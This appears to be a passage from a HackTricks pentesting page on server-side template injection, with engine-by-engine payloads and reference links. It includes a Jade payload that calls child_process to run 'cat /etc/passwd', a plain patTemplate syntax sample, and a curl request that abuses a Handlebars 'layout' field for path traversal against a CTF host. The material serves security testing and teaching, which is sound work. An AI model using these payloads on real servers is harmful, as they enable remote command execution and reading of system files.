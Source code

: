 

```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

**More information**

- In Jade section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
 
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pattemplate-php)

patTemplate (PHP)

> [patTemplate](https://github.com/wernerwa/pat-template) non-compiling PHP templating engine, that uses XML tags to divide a document into different parts



```
<patTemplate:tmpl name="page">
 This is the main page.
 <patTemplate:tmpl name="foo">
 It contains another template.
 </patTemplate:tmpl>
 <patTemplate:tmpl name="hello">
 Hello {NAME}.<br/>
 </patTemplate:tmpl>
</patTemplate:tmpl>
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)

Handlebars (NodeJS)

Path Traversal (more info [here](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)).



```
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
